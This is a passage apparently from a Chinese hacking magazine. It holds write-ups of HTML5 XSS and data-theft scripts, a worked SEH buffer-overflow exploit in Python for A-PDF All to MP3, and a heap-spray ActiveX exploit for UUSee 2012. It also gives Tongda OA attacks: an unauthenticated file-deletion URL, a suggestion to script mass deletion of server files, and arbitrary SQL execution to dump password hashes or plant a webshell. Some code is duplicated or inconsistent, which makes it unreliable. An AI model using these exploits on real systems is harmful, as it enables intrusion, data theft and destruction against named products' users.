<form id="test"></><button form="test" formaction="javascript:alert(1)">test
<form><button formaction="javascript:alert(1)">test
```

等其他一些 XSS 攻击变种。

### 4. Web 存储和 DOM 信息窃取

HTML5 支持本地存储，即使用 localStorage 对象将 Web 数据持久化在本地。因此开发者可以为应用程序创建本地存储并存储部分信息。应用程序的任何位置均可访问到这些存储区域。HTML5 的这个特性为客户端提供了巨大的弹性。本地存储可通过 JavaScript 访问到。若应用程序存在 XSS 漏洞，则攻击者借助 XSS 手法完全可以窃取到存储内的所有信息。设想下，攻击者使用 XSS 攻击，从本地存储中如同探囊取物般获取用户令牌或 Hash，那是多么糟糕的事情！JavaScript 可以使用下面这些 API 函数访问存储：

```javascript
interface Storage {
  readonly attribute unsigned long length;
  getter DOMString key(in unsigned long index);
  getter any getItem(in DOMString key);
  setter creator void setItem(in DOMString key, in any data);
  deleter void removeItem(in DOMString key);
  void clear();
};
```

若攻击者取得了 XSS 攻击入口，则可以使用如下代码访问到所有的变量：

```javascript
if(localStorage.length){
  console.log(localStorage.length);
  for(i in localStorage){
    console.log(i);
    console.log(localStorage.getItem(i));
  }
}
```

下面的代码是浏览器中设置关键参数的业务逻辑调用：

```html
<script type="text/javascript">
localStorage.setItem('hash','1fe4f218cc1d8d986caeb9ac316dffcc');
function ajaxget(){
  var mygetrequest = new ajaxRequest();
  mygetrequest.onreadystatechange = function(){
    ...
  }
}
</script>
```

## 漏洞攻防

```javascript
if (mygetrequest.readyState == 4) {
    ...
}
```

故对攻击者而言，存储可能已经成为一个关键的漏洞切入点，而且未来 XSS 攻击方式将会以模块化方式处理。本地存储区域不仅仅包含局部变量，还在 JavaScript 内定义了部分全局变量。大量的应用程序认证后都会设置一个全局变量区。登录 Login 方法的 Ajax 代码是一段很有趣的代码，校验变量的定义并遵照“单 DOM 程序”HTML5/Web2.0 框架。若变量没有在合适的权限范围内创建，则或许能作为全局变量方式访问，包含一些有趣的信息，如登录名、密码、令牌等。当然，我们需要在 Web2.0、Ajax、HTML5 及单 DOM 程序下做大量的 JavaScript 分析，如图 5 所示。


图 5 JavaScript 分析

所有的全局变量可以通过下面给出的简单循环获取：

```javascript
for (i in window) {
    obj = window[i];
    if (obj != null || obj != undefined) {
        var type = typeof(obj);
        if (type == "object" || type == "string") {
            console.log("Name:" + i)
            try {
                my = JSON.stringify(obj);
                console.log(my);
            } catch (ex) {}
        }
    }
}
```

### 5. SQLi&盲枚举

HTML5 以 WebSQL 的方式提供了在线数据库模式。这个特性极大地提高了访问性能。我们已经看到过基于服务器端的 SQL 注入，上面的方式则可能会开启客户端 SQL 注入模式。若应用程序存在 XSS 漏洞，则攻击者可从 WebSQL 上窃取到信息，并跨域传输。HTML5 包含两个重要的数据点：WebSQL 和存储，它们都严格遵循 RFC 规范，这些 API 可使用 JavaScript 访问。假设我们得到一个入口，并且对 WebSQL 表名和存储键值一概不知，下面提供了一种方法枚举这些数据。对于盲 SQL 枚举目标内容，我们需要准备以下信息：

- 1. 数据库对象。
- 2. 创建 SQLite 的表结构。
- 3. 运行 select 查询的用户表。

下面的脚本代码可以获取到数据库信息：

```javascript
var dbo; var table; var usertable;
for (i in window) {
  obj = window[i];
  try {
    if (obj.constructor.name == "Database") {
      dbo = obj;
      obj.transaction(function(tx) {
        tx.executeSql('SELECT name FROM sqlite_master WHERE type="table";', [], function(tx, results) {
          table = results;
        }, null);
      });
    }
  } catch (ex) {}
}
if (table.rows.length > 1) usertable = table.rows.item(1).name;
```

我们从上面的代码中获取到 WebSQL 中存放的表名后，接下来就可运行 SQL 查询遍历所有结果：

```javascript
var dbo; var table; var usertable;
for (i in window) {
  obj = window[i];
  try {
    if (obj.constructor.name == "Database") {
      dbo = obj;
      obj.transaction(function(tx) {
        tx.executeSql('Select name from sqlite_master where type="table";', [], function(tx, results) {
          table = results;
        }, null)
      });
    }
  } catch (ex) {}
}
if (table.rows.length > 1) usertable = table.rows.item(1).name;
```

获取到用户表名后运行查询，即可使用同一个数据库对象执行查询语句。

### 6. Web 消息机制与 Web Workers 注入

HTML5 引入了 WebWorker 和消息机制，它允许 JavaScript 使用线程，即使用 worker 类可加载一个 JavaScript 文件并辟一个新的线程。

这种机制虽然解决了浏览器执行复杂事务及业务逻辑带来的页面响应变慢的问题，但同样带来了一定的不安全因素，即基于 Web2.0 应用的漏洞利用等。Web2.0 运行在单 DOM 下，若应用程序本身存在基于 DOM 的 XSS 漏洞，则可能引发隐藏线程注入风险，导致攻击者可任意监控某一特定 DOM 内的所有活动。DOM 引入了大量的构件，则攻击者可以获得足够多的有效信息。设想下，若 WebWorker 能够监视到某构件库下的登录名和密码域，同样，消息机制也存在基于 DOM 的 XSS 攻击可能，因为浏览器客户端及 server 端页面在流上可能不存在控制验证。如下消息调用：

```html
<html>
<button onclick="Read()">Read Last Message</button>
<button onclick="stop()">Stop</button>
<output id="result"></output>
<script>
function Read(){
    worker.postMessage({'cmd': 'read', 'msg': 'last'});
}
function stop() {
    worker.postMessage({'cmd': 'stop', 'msg': 'stop it'});
    alert("Worker stopped");
}
var worker = new Worker('message.js');
worker.addEventListener('message', function(e) {
    document.getElementById('result').innerHTML = e.data;
}, false);
</script></html>
```

其中，postMessage 用来向后台脚本发送消息，但后台 innerHTML 调用有可能已经被感染，即 XSS 代码可能作为一个事件注入到后台，引发执行感染事件。（译者注：读者对 WebWorker 机制感兴趣可参考 http://www.ibm.com/developerworks/cn/web/1112_sunch_webworker/。）

### 7. 基于 DOM 的 XSS 漏洞和消息机制

DOM-based XSS 漏洞是基于文档对象模型 DOM 的一种漏洞。DOM 允许程序或脚本动态地访问和更新文档内容、结构和样式，处理后的结果能够成为显示页面的一部分。客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得 DOM 中的数据在本地执行，如果 DOM 中的数据没有经过严格确认，就会产生 DOM-based XSS 漏洞。基于 DOM 的 XSS 攻击呈现上升趋势。这可能是因为大量的应用程序都是通过 Web 消息机制、单 DOM 和 XmlHttpRequest、Ajax 方式实现的。一些 HTML5 标签和属性可通过 DOM 调用控制，实现较差的 DOM 调用，如 Web 消息和工作机制下的 eval()、document*() 都可能导致“cocktail”攻击。在一个 HTML5 应用下运行 Widgets、Mashup、Objects 等将可能使基于 DOM 的 XSS 攻击带来的影响面扩大化，因为整个 DOM 都可以被 attacker 访问到。

浏览器的规范是通过 3 个层面改变的：HTML5、3 级 DOM 和 2 级 XHR。彼此之间不可分割，即在编写应用程序时不可分割。HTML5 应用程序需要使用 DOM 扩展，并借助 XHR 调用动态改变页面内容。通过各个不同的 DOM 调用实现 DOM 操作，一些较差的实现方式就可能导致 DOM 注入。这些注入可以引发一套基于 DOM 的 XSS，如从 DOM 中提取内容、变量操纵、绕过逻辑及信息枚举等。同时，DOM 加载不同的对象如 Flash、Silverlight 可能会引发更有趣的攻击，如劫持整个 DOM 并精心设计一些跨域攻击等。

### 8. 第三方/在线 HTML Widgets 和 Gadgets

HTML5 支持在线使用页面缓存机制，同样也可能带来一个应用程序框架安全的话题。浏览器缓存可能被污染，如攻击者注入一段脚本并监视某个特定域。`<html manifest="/appcache.manifest">` 上面的标签可在线注入缓存。通过不可信网络或代理实现缓存污染是完全可能的，当用户获取真实应用时，执行注入的恶意脚本并对某些活动进行监视。还有，Widgets 使用 HTML5 框架下的 Web 消息和工作线程机制。攻击者可能利用存在漏洞的程序创建陷阱并俘获 DOM 调用，如图 6 所示。


图 6 攻击俘获 DOM 调用

### 9. Web Sockets 攻击

WebSocket 是 HTML5 规范新引入的功能，用于解决浏览器与后台服务器双向通信的问题。使用 WebSocket 技术，后台可以随时向前端推送消息，以保证前后台状态统一。即允许浏览器通过 Sockets 方式打开一指定 IP 地址的某个端口。设想下，若用户登录一个页面时，仅仅是使页面开放 sockets 并开始在内部 IP 地址上做端口扫描。假设端口扫描发现一个有趣的端口如 80 在内部网络上开启，则一个 IP 隧道就可能通过浏览器建立了。此时，即可真正绕过防火墙实现内部访问。Web Socket 带来以下可能的威胁：

- 后门和浏览器 shell。
- 快速端口扫描。
- 僵尸网络。
- 基于 Web Socket 的 Sniffer。

下面是一个实现快速端口扫描并协商 HTTP 会话的示例脚本：

```text
Request URL: ws://192.168.100.1/
▼Request Headers
Connection: Upgrade
Host: 192.168.100.1
Origin: http://www.andlabs.org
Sec-WebSocket-Key: ...
Sec-WebSocket-Key2: ...
Upgrade: WebSocket
(Key3): 8C:11:F0:16:60:BC:50:C8
```

### 10. 协议/机制/APIs 攻击

HTML5 在浏览器 UI 界面上引入了厚客户端特性，然而这些特性有可能被攻击者利用并构造出巧妙的攻击手法。攻击者可以利用拖放厚客户端 APIs 方式实现自载 XSS 漏洞攻击，强行获取数据并窃取会话内容等。同样，还可以结合 iframe 下的单击劫持或者 UI 地址重定向问题。总之，这些特性扩展了单击劫持攻击面。HTML5 引入了客户端协议和机制注册特性，如下代码可注册并重载 email 事件处理程序：

```javascript
navigator.registerProtocolHandler("mailto", "http://www.foo.com/?uri=%s", "My Mail");
```

从安全角度来看，HTML5 还存在一些感兴趣的 APIs：

- 1. 文件 APIs：允许访问本地文件，通过单击劫持等攻击方式可获取到客户端文件。
- 2. 拖放 APIs：自载 XSS 漏洞、劫持 Cookies 等其他诡计。

### 11. 小结

通过 JavaScript 方式嵌入 HTML5、DOM 和 XHR 已经引发了下一代 Internet 程序开发革命。下一代应用程序栈将离不开 HTML5、Silverlight 和 Flash/Flex，HTML5 更多新特性将带来新的威胁与挑战。本文讨论了当前可能的 10 种攻击手段，但这仅仅是热身阶段。HTML5 才刚刚起步。随着不同库及开发方式的发展，越来越多的攻击面会浮现。关注上面提到的 10 个安全话题，随着时间的推移在引入某些控件时，可能会给我们更多的思考。

## A-PDF All to MP3 基于 SEH 的漏洞利用


图/文 endliang

A-PDF All to MP3 是一款 MP3 格式转换程序，在对该程序进行测试的时候，发现使用了加壳及反调试技术。当时调试这个漏洞的时候是 2.1.0 版本，现在的最新版本是 2.3.0，不过漏洞依然存在，只是内存地址发生了一些变化，感兴趣的朋友可以尝试使用本文中的教程试着调试一下。

本文进行测试的系统环境为 Windows XP SP3。用到的工具包括 Windbg（微软的内核级调试工具）、Immunity Debugger（类似于 OllyDBG 的调试工具，里面的一些脚本命令很好用）、findjmp（查找命令地址的工具）和 metasploit（渗透测试平台，可以与 Immunity Debugger 配合使用）。

### SEH 介绍

SEH 是结构化异常处理例程，当程序发生异常时，程序会调用程序中已经定义的异常处理函数进行处理（如 try…catch…）。如果程序中没有定义对该异常的处理，则该异常交给系统进行处理，一般就是弹出一个对话框，并提示用户是终止程序还是调试错误。所以 SEH 的结构为 8 字节，两个 4 字节的指针。第一个指针指向下一个 SEH 的地址，第二个指针执行异常处理函数。一般首个 SEH 在 TEB/TIB 结构的顶部，所以 SEH 也叫做 FS:[0] 链。

SEH 在栈中的分布大致如图 1 所示。


### 漏洞利用原理

由于 SEH 结构的特性，所以我们可以在第一个 SEH 中构造一个异常，让程序跳转到我们指定的 shellcode 位置。因为 SEH 的第一个指针（以后称为 nextSEH）指向下一个 SEH 结构，第二个指针（以后称为 SE Handler）指向处理异常的函数，所以我们可以把 nextSEH 指针的值设为 shellcode 位置，让程序跳转到那里执行。要程序跳转 nextSEH 必须再产生一个 SEH，这里我们用 pop pop ret。这个命令序列相当于 esp+8，此时程序会跳转到 nextSEH，并查找下一个 SEH 结构。

根据前面提到的原理，我们接下来要做的工作就是寻找存放 shellcode 的地址。这里，shellcode 直接放在 SEH 的后面，然后查找可以利用的 SEH 结构并覆盖其相应的值。

- 触发一个异常。
- 用 jumpcode 覆盖 nextSEH 域。
- 用指向 pop pop ret 的指令串覆盖 SE Handler 域。
- Shellcode 应该直接跟在被覆盖的 SE Handler 域后面，被覆盖的 nextSEH 域中的 jumpcode 将跳到 shellcode 执行。

图 2 为这个 payload 的执行流程。


一个典型的 payload 为 `[Junk][nextSEH][SE Handler][nops-shellcode]`。nextSEH 指向 shellcode，SE Handler 指向 pop pop ret 指令串。这里务必要挑选一个全局性的地址去覆盖 SE Handler，以防程序执行的时候该地址被覆盖。

现在，我们构造一个可以让程序崩溃的 payload。代码如下：

```python
buffer="A"*5000
fh=open("A crash.wav","w")
fh.write(buffer)
fh.close()
```

这是一段 Python 代码，将其编译成 wav 文件，以让程序可以加载。用 Windbg 加载程序进行调试，这里需要注意的是，该程序存在加壳与反调试的功能，所以在这里先运行程序，再用 Windbg 附加，加载好后用 g 命令运行，之后在程序中添加我们构造的 wav 文件，导致程序崩溃。

用 `d fs:[0]` 命令查看 SEH 链，如下所示。


0x0012f9b0 指向 SEH 链，查看 0x0012f9b0 位置，发现这个区域已经被 A 覆盖，如下所示。


查看 SEH 链：


现在我们已经成功覆盖异常处理例程。再用 g 命令查看 EIP 的值，发现 EIP 已经被覆盖为 `41414141`，可以控制 EIP，如下所示。


验证完漏洞可以利用后，接下来就是具体的实施了，不过我们先要得到 SEH 的偏移。

### 如何得到 SEH 偏移

从上面的验证我们知道，程序会在填充 5000 个字符的时候崩溃，所以我们构造一个 5000 个字符的特殊字符串。打开 Immunity Debugger，在命令行中输入 `!mona pattern_create 5000`，这是 metasploit 的一个小工具 `pattern_create.rb`。Immunity Debugger 将其集成，也方便 Windows 用户使用。这时在 Immunity Debugger 的安装目录下就出现了 `pattern.txt` 文件，这就是构造的特殊字符串。用这些构造好的特殊字符替换前面 Python 代码中的 5000 个字符；在 Immunity Debugger 中调试加载，程序崩溃。查看 SEH 链，如图 3 所示。


图 3 加载特殊字符后的 SEH 链

可以看到，SE Handler 被 `69463968` 覆盖。这串数字可以帮助我们找到 SEH 的偏移。如果用 metasploit 的话，可以使用命令 `./pattern_offset.rb 0x69463968` 进行偏移的查找。在 Immunity Debugger 中则使用命令 `!mona suggest`。在命令执行完后单击软件上面的 “I” 按钮查看日志，可以看到程序列出了很多信息，其中就有我们想要的 SEH 偏移。图 4 显示了这些信息的一部分。


图 4 Immunity Debugger 的日志信息

从图 4 可以看到，红色框中的值就是我们想要得到的偏移 `4138`。另外还可以发现，Immunity Debugger 给出了该漏洞基于 metasploit 的利用建议。根据前面对 SEH 的介绍，nextSEH 在 SE Handler 的前面 4 字节处，所以垃圾代码的字符个数应该是 `4138-4=4134` 个。

### 如何得到 pop pop ret 地址

得到 SEH 的偏移后，我们的 payload 还剩下 pop pop ret 地址没有找到。一般情况下，可以先用 Windbg 加载程序，查看程序加载时使用了哪些 DLL 文件，然后使用 `findjmp.exe` 查找该地址。操作方式为 `findjmp.exe <dll名字> <寄存器名字>`。Windbg 中的显示如图 5 所示，可以看到，程序有两个自身的 DLL 被加载，使用程序自身的 DLL 可以避免 payload 对系统文件的依赖，毕竟不同的系统其 DLL 有可能不同。

图5 Windbg 中显示的程序运行时加载的 DLL

用 findjmp.exe 对 pop pop ret 地址进行查找，这里笔者在 lame_enc.dll 里面查找相应的地址。图6 显示了查找的结果，可以看到，在 lame_enc.dll 中与 edi 相关的 pop pop ret 地址被列出来了。

图6 用 findjmp.exe 查找 pop pop ret

现在我们应该挑选没有 `\x00` 的地址，因为 `\x00` 表示终止，我们的 payload 会被截断，之后把地址加到我们的 Python 代码中的 SE Handler 部分就可以了。

但是，对于这个程序，这样做是不行的。在我分别试了所有的 DLL 及 DLL 查找到的地址之后，发现这些地址都不能用。应该是程序对 SEH 进行的一些保护机制，使得以这种方法查找的 pop pop ret 地址出现了错误。

至于错误的检验，其实可以放到在程序加载特殊构造的 wav 文件后，在 Windbg 里面查看我们用 findjmp.exe 找到的 pop pop ret 地址，结果如图7所示。这里的测试地址选用了在图6中显示的 `0x1002ad84`。可以看到，在 `0x1002ad84` 地址中存放的是 push，而不是我们想要得到的 pop pop ret 指令串。

图7 DLL 中的 pop pop ret 检验

没关系，我们还有一种可以找到 pop pop ret 的方法——使用 Immunity Debugger 的 mona 工具。在命令栏中输入 `!mona p` 命令，在 Immunity Debugger 的安装目录下就会生成 seh.txt 文件，该文件中有各种与 SEH 漏洞利用相关的信息，如是否有 SEH 保护机制、是否有相关跳转的地址等，当然还包括 pop pop ret 地址。由于前面实验了一些 DLL 没用，所以这里笔者选用程序自身的地址 `0x005d6a91` 作为要覆盖 SE Handler 的地址。前面提到不能使用存在 `\x00` 的地址，但这里使用了这个地址并运行成功，可能是这个程序有点特殊吧。

同样用 Windbg 检验，如图8所示。可以看到，这里确实存放了 pop pop ret 指令串。

图8 检验 mona 找到的 pop pop ret 地址

现在，各个要查找的部分都找到了，可以开始对 payload 进行最终的编写了。

### 完成 exploit

我们把前面完成的部分根据 `[Junk][nextSEH][SEH][shellcode]` 结构拼接起来，实现的 Python 代码如下：

```python
junk="A"*4134
nextSEH="\xcc\xcc\xcc\xcc"
SEH="\x91\x6a\x5d\x00"
shellcode="1ABCDEFGHIKLMN2ABCDEFGHIKLMN3ABCDEFGHIIKLMN"

buffer=junk+nextSEH+SEH+shellcode

fh=open("mytest.wav","w")
fh.write(buffer)
fh.close()
```

为了检验 shellcode 位置是否与我们想的一样，把 nextSEH 的代码用 `\xcc` 替代，让程序在此处中断，这样可以方便我们验证各个模块的位置。代码中的 shellcode 赋值方式可以方便我们在 shellcode 存在偏移的情况下较为快速地定位偏移。

生成 wav 文件后，用 Windbg 加载可以看到，nextSEH 的位置偏移了理想位置 2 字节，如图9所示。不过，nextSEH、SEH 和 shellcode 这 3 个模块还是紧紧连在一起的。

图9 对之前想法的验证

```python
"\x4e\x4b\x48" ...
"\x41\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54" ...
...
buffer=junk+nextSEH+SEH+"\x90\x90\x90\x90"+shellcode

fh=open("mytest.wav","w")
fh.write(buffer)
fh.close()
```

因为 nextSEH 存在偏移 2 字节，所以把 Junk 部分的代码改为 `4134-2=4132` 个字节，`junk="A"*4132`，重新查看，可以看到，nextSEH 符合要求了。

接下来给 nextSEH 赋值，因为 shellcode 紧跟着 SEH，SEH 占用 4 字节，所以我们可以跳过 6 字节执行；在 shellcode 前面加上一些 nop，让 shellcode 更好地执行，这里加了 4 个 nop，所以我们的结构就成了 `[Junk][nextSEH][SEH][4*nop][shellcode]`。

在 opcode 里面，`\xeb` 表示近跳，因为我们要跳过 6 字节，所以 opcode 为 `\xeb\x06`。而 nextSEH 又占用 4 字节，所以后面两个字节用 nop 填充，最后完成的 nextSEH 为 `nextSEH="\xeb\x06\x90\x90"`。

这样，一个 payload 就基本完成了。shellcode 用现成的方法打开计算器功能，类似这样的 shellcode 网上都可以找得到，也有专门的工具生成，这里不再多说。最终的 payload 代码如下：

```python
junk="A"*4132
nextSEH="\xeb\x06\x90\x90"
SEH="\x91\x6a\x5d\x00"

shellcode=("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff..."
"...")
```

为什么 shellcode 之前没用括号而这里用了？因为这里 shellcode 的 opcode 太长，我把它分成了多段，每一段都是独立的，所以这里用括号把这些字符串都连起来，和在每个字符串后面用加号连起来是一个效果。

编译，生成 wav 文件，直接用 A-PDF All to Mp3 程序打开，出现计算器，exploit 成功，如图10所示。

图10 exploit 成功后运行的计算器

## 危机重重的 Office Anywhere

图/文 爱无言

Office Anywhere 是通达网络办公系统的别名，这款网络办公系统的名气很大，国内多个企业、单位都在使用，这一点可以通过访问其官方网站看到。工作中由于朋友所在的公司引入了该系统，受其委托对该系统做了安全测试，结果大大超出我的想象。下面将部分测试过程拿出来与大家一起分享。当然，本文旨在讨论安全技术，请勿利用文中技术进行任何违法行为，否则，作者与杂志概不负责。

被测试的系统版本为其官网发布的最新的“通达OA2011 网络智能办公系统”。整个系统安装过程非常简单方便，不需要安装额外的一些辅助软件，从这一点来讲，就比一些办公系统要做得好。安装完成后，使用浏览器就可以直接访问通达网络办公系统。通过简单的设置，我们建立了两个测试用户，分别为：test 和 test2。在通达网络办公系统中，有一个发送电子邮件的功能，在这个模块我们进行了 XSS 测试，如图1所示。

图1 显示的是我们利用 test 账户登录通达网络办公系统后创建了一封新邮件，其接收对象是 test2。在创建邮件过程中，系统允许对邮件的内容进行源代码编辑，单击图1右侧中间部分的“源码”图标就可以编辑邮件源代码。不要在正常模式下输入 XSS 测试脚本后再单击“源码”图标，否则，系统会对脚本代码做基本的 HTMLEncode，破坏我们的测试效果。这里我们输入了一段简单的 XSS 测试脚本，脚本目的是弹出一个显示有“测试脚本成功执行”的对话框。发送该邮件后，注销 test 账户，利用 test2 用户登录系统，此时系统会显示有一封新邮件，如图2所示。

单击该新邮件，系统会进入邮件阅读模式，意想不到的一幕发生了，如图3所示。

毫无疑问，通达网络办公系统的电子邮件模块存在重大安全漏洞，如此简单的 XSS 测试竟被成功执行。在内网使用中，如果某个恶意用户设计一段特殊目的的脚本代码插入到电子邮件，然后群发给系统中的所有用户，那么结果可想而知。上面的这个安全漏洞从性质上来讲，应该属于针对客户端的攻击，而我们最喜欢的是直接从客户端攻击服务器的安全漏洞，这种漏洞价值最高，效果最为明显。测试发现，通达网络办公系统同样存在多个远程攻击漏洞，下面介绍的就是其中之一。

通达网络办公系统的后台 Web 模块采用 PHP 语言开发，经过了 Zend 加密。可能设计者以为这样的方法就可以保证核心技术的安全，甚至可以防止安全测试人员发现安全漏洞。利用现有的 PHP 解密程序，轻而易举地还原了通达网络办公系统所有的 PHP 程序源代码，其中 `delFile.php` 文件中的代码引起了我们的兴趣，该文件的存放路径如图4所示。

图4

```php
include_once("general/crm/apps/crm/header.php");
include_once("inc/utility_file.php");
if (file_exists($errorReportPath)) {
    @unlink($errorReportPath);
}
if (file_exists($filePath)) {
    @unlink($filePath);
}
echo "<script>parent.goBackUrl('".$del_url."')</script>";
```

以上是 `delFile.php` 文件的主要代码，代码内容很简单，主要是执行一个文件删除过程。这个过程没有任何安全检查，参数 `$errorReportPath` 和 `$filePath` 可以被我们直接提交。只要被提交参数所代表的文件存在于服务器上，那么 `delFile.php` 就可以忠实地履行删除文件的任务。……在浏览器中提交 URL 地址：`http://YourServerIP/general/crm/apps/crm/include/import/delfile.php?errorReportPath=c:/1.txt`，再去看服务器上还能不能找到刚刚建立的 1.txt 文件。

现在，我们可以编写一个批处理文件或者小程序，将上面 URL 地址中的 `$errorReportPath` 参数指向服务器上的重要文件路径，只需要按回车键，服务器上所有重要文件就不存在了。

如果觉得上面这个漏洞还不够刺激，那就请允许我向你隆重推出下面这个漏洞。漏洞存在于 `ExecQuery.php` 文件中，该文件所在路径为：`D:\MYOA\webroot\general\reportshop\utils`，其代码如下所示：

```php
include_once("inc/conn.php");
include_once("./utils.php");
$res = mysqlexecutesql($_POST['SQLQuery']);
$res = gzencode($res);
echo $res;
```

从代码来看，`ExecQuery.php` 文件允许我们进行数据库查询操作。`MySQLExecuteSQL` 函数来自于 `utils.php` 文件，其源代码如下：

```php
function MySQLExecuteSQL($sql, $NoPrefix = FALSE) {
    global $connection;
    global $MYSQL_DB;
    $sql = str_replace("\"", "", $sql);
    // 替换 SQL 参数中的双斜杠为空字符，防止查询出现错误
    if (strpos($sql, " join ") !== FALSE) {
        $has_join = TRUE;
    } else {
        $has_join = FALSE;
    }
    $sys_info = getsysinfo();
    if (strpos($sql, "crscell") === FALSE) {
        $sql = strtoupper($sql);
    }
    if ($sys_info == "ra") {
        $sql = str_replace("{$MYSQL_DB}.", "", $sql);
    }
    if ($NoPrefix) {
        $res = "";
    } else {
        ...
    }
    $cursor = exequery($connection, $sql);
    return $res;
}
```

从代码来看，`MySQLExecuteSQL` 函数没有什么限制，更不要谈什么安全限制了。我们可以提交任意 SQL 语句给 `ExecQuery.php` 文件，直接从数据库中获取数据或者修改数据库，或者直接导出 WebShell 到服务器上，是不是觉得这个漏洞足够致命了？

## 漏洞攻防

在查询数据库时，由于 `ExecQuery.php` 文件最后使用 `gzencode` 函数对查询结果进行转码压缩，所以查询出来的数据不可视，我们可以借助程序直接获取查询结果，不要利用浏览器来获取结果。转码后的效果如图5所示。

可以看到，此刻我们已经直接获取到了数据库中用户的所有信息，其格式类似为：

```xml
<z:row UID="1" USER_ID="admin" USER_NAME="系统管理员" USER_NAME_INDEX="jx*t*g*l*y*" BYNAME="" USEING_KEY="" USING_FINGER="0" PASSWORD="tVHbkPWW57Hw." />
```

这是 XML 格式，不影响阅读。

通达网络办公系统在易用性和界面效果方面非常不错，但安全方面还存在诸多问题，PHP 加密只是一种防止技术泄露的手段，要是当做防止安全漏洞的方法就有些掩耳盗铃了。希望通达网络办公系统的开发者能够及时修正该系统的安全漏洞，完善系统的使用可靠性，做出来越来越完美的办公自动化产品。

图5

## 你猜 UUSee 网络电视 2012 远程溢出漏洞

图/文 爱无言

在国内网络视频软件市场，UUSee 的名气还是比较大的，相信很多人都用过。对于研究软件安全的朋友来说，UUSee 也是一个最容易出问题的软件，记得 UUSee 2008 版本出现过多个安全漏洞，有拒绝服务的、有远程溢出的、有远程实现木马下载执行的。这其中最有名的是利用 UUSee 的 Update 功能实现远程下载并执行木马的安全漏洞，不知道被多少人拿来作为网页木马使用。2010 年我也在《黑客攻防》上发表过 UUSee 的一个远程溢出漏洞，出问题的文件是其 UUPlayer.ocx 控件中的 DoCmd 接口。

最近在工作之余，发现 UUSee 又推出了网络电视软件，于是从 UUSee 的官方网站上下载了该程序的最新版本，打算做一次安全测试，结果发现，以往的安全漏洞都已修补，但是新的安全漏洞还是被挖掘出来了。

本次的测试环境是 Windows XP SP3，浏览器为 IE6。被测试的 UUSee 网络电视具体版本号为 UUSee 2012 7.12.830.1，如图1所示。

## 漏洞攻防

图1

安装好 UUSee 网络电视，使用 ComRaider 扫描当前系统中新加入的 ActiveX 控件，发现 UUSee 网络电视向系统添加了多个新的 ActiveX 控件，这里研究的是 seeplayer.ocx。我们看看 seeplayer.ocx 的具体信息，如图2所示。

图2

从图2中可以看到，seeplayer.ocx 文件的开发时间是 2011 年 10 月 27 日，数字证书显示了文件建立时间。利用 ComRaider 打开 seeplayer.ocx 文件，会看到该文件提供的全部外部接口，如图3所示。

图3

seeplayer.ocx 文件提供了大量的外部接口，这是一个很好的消息，我们可以对这些外部接口进行安全测试。测试方法非常简单，建立一个 HTML 文件就可以进行。这里我们首先测试的外部接口是 `SendCommendStr`，其函数原型为：`Sub SendCommendStr(ByVal commendstr As String)`。测试网页代码为：

```html
<object classid="clsid:EAB7A1CC-C77B-45E5-9AC2-AD037D047B0C" name="evil"></object>
<script>
var a = Array(5000);
document.write(evil.SendCommendStr(a));
</script>
```

保存上述测试代码为 `test.htm`，将其放置在本机建立的 Web 服务器目录下，运行 IE6，输入 `test.htm` 文件所在的网址，按回车键会发现 IE6 崩溃了。用 OllyDbg 程序来调试 IE6，再次访问 `test.htm` 文件所在的网址，这一次 OllyDbg 程序监测到 IE6 发生崩溃的真正原因，如图4所示。

图4

OllyDbg 程序显示，IE6 执行到内存地址为 `2c2c2c2c` 的时候，由于该内存地址不存在，导致 IE6 无法继续运行而发生崩溃。这里 `2c` 是符号 `,` 的 ASCII 码。在 `test.htm` 网页文件中，有一句代码 `var a = Array(5000)`，这句代码的意思就是将 a 这个变量赋值为 5000 个 `,` 组成的字符串。这是由于这个超长字符串组成的变量 a 造成了 IE6 在调用 seeplayer.ocx 文件的 `SendCommendStr` 外部接口时发生了溢出，最终覆盖了某个关键内存地址。不过幸运的是，IE6 最后出错的这个地址是可以被我们的代码所控制的，也就是 a 变量的具体内容可以控制，能够直接覆盖 SEH。利用经典的 heapspray 技术，就能够成功实现控制 IE6 在漏洞发生时执行任意代码。代码，一个能够被改写为网页木马的远程溢出漏洞就这样被我们发现了。基本测试代码如下所示：

```html
<object classid="clsid:EAB7A1CC-C77B-45E5-9AC2-AD037D047BCC" name="evil"></object>
<script>
var heapSprayToAddress = 0x0c0c0c0c;
var shellcode = unescape("shellcode");
var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u0505%uebdf%uebdf");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000)/heapBlockSize;
memory = new Array();
for (i=0; i<heapBlocks; i++) {
  memory[i] = spraySlide + shellcode;
}
var a='d';
```

```javascript
var i=0;
while(i<3000){
  a=a+0x2c; // 这里设置溢出覆盖地址为 0x2c2c2c2c
  i=i+1;
}
document.write(evil.SendCommentStr(a));
function getSpraySlide(spraySlide, spraySlideSize){
  while (spraySlide.length*2 < spraySlideSize){
    spraySlide += spraySlide;
  }
  spraySlide = spraySlide.substring(0, spraySlideSize/2);
  return spraySlide;
}
</script>
```

除去上面这个安全漏洞，在测试中，发现 UUSee 网络电视还存在其他很多安全问题，这里就不再一一叙述了，有兴趣的读者可以自行挖掘测试。

## 关于 DarkCometRAT531 的逆向分析


图/文 鲜果

本文只是简单分析了远控 DarkCometRAT531，简要地对远控客户端进行了静态和动态分析。目前找到了客户端的一个小 Bug：客户端在实现上的一个小问题能够导致服务端自动退出。更细致的分析需要一些时间来完成。远程发送数据包导致客户端远程溢出漏洞，需要对客户端与服务端通信的协议进行分析，有针对性地进行通信协议上的漏洞挖掘，这会耗费相当长的时间来做这件事情，目前只做了前期的工作。

### 分析前的准备工作

操作系统环境为 Windows XP SP3（简体中文）的虚拟机一台（客户端）、Windows XP SP3（繁体中文）虚拟机一台（服务端）。使用的工具包括 OD、windbg、wireshark-win32-1.2.9、IDA Pro 5.5、010Editor、PEID 和 DEDE（反编译 Delphi 程序工具）。使用 PEID 查看客户端程序 DarkComet，提示“Borland Delphi v6.0 - v7.0 *”，认定主程序使用 Delphi 编写，未加壳。

### 分析过程

- 1. 客户端逆向分析：使用 IDA 载入客户端主程序 DarkComet.exe 进行静态反编译。

